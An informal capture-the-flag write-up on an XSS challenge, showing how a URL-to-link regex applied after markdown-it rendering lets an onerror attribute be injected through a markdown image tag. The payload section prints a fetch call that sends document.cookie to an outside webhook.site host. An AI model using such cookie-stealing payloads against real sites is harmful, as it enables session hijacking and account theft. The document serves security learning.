



ik this is like 1 month ago but i was busy with working on udg2 april fools so here we are\
this was the most solved chall but i spent an embarrasingly long time solving it\
guess i have a massive skill issue

# challenge

we're presented with a textbox input here, which will display a message on the page when it's submitted, along with a button that shares our message with the admin bot\

the admin bot carries a flag cookie on its visit, so i figured i need to make the bot send the cookie to us somehow

# analyzing
before rendering our message, the website filters it first:
```js
function replaceUrls(text) {
    let regex = /(https:\/\/.*?)\s/gi;
    let replacedText = text.replace(regex, '<a href="$1">$1</a>');
    return replacedText;
}
// ...
app.get("/buffzone", (req, res) => {
    let message = req.query.message;
    if (message) {
        res.render("buffzone", { message: replaceUrls(md.render("**" + message + "**")) })
    }
    else {
        res.redirect("/")
    }
});
```
our message is first rendered as a bold text in markdown, then the urls made into a hyperlink tag if there's any\
finding a vulnerability on markdown-it seems impossible (i only realized that hours in) so our focus is likely replaceUrls function

# solving
after messing around i realized that our message is put into the tag without any changes\
this means we can inject onerror by `https://"onerror=alert(1)"`! :clueless:

nope\
checking backend, the markdown might've turned our quotation mark into character entities. aw
```html
2024-12-13 10:16:34 Received: <p><strong>https://&quot;onerror=alert(1)&quot;</strong></p>
2024-12-13 10:16:34 Replaced: <p><strong><a href="https://&quot;onerror=alert(1)&quot;</strong></p>">https://&quot;onerror=alert(1)&quot;</strong></p></a>
```
so we need to find a way to inject without sending double quotations\
after googling, i decided to try hyperlinks: `/)`

whats up localhost\
since markdown renders our hyperlink as an img tag, which has a quotation mark in itself (src="")\
the replaceUrls function will close the src attribute, letting us inject onerror\
we can confirm this on the backend:
```html
2024-12-13 10:26:30 Received: <p><strong></strong></p>
2024-12-13 10:26:30 Replaced: <p><strong>https://onerror=alert(document.domain)/"</a>alt=""></strong></p>
```
now we just have to make the bot send the cookie!

# payload
i used webhook.site as a request receiver:
```js
fetch('https://webhook.site/insert-id-here-brah/?c=' + document.cookie)
```
however don't forget the server will replace the https link\
so during ctf i converted the whole thing to numbers, then used String.fromCharCode\
this was my final payload:
```
.concat(document.cookie))/)
```
and we should get our flag!...

if only i had remembered it. i couldn't get docker to work lol\
anyways this chall was fun and also broke my 0 solve streak a month ago . happy fortune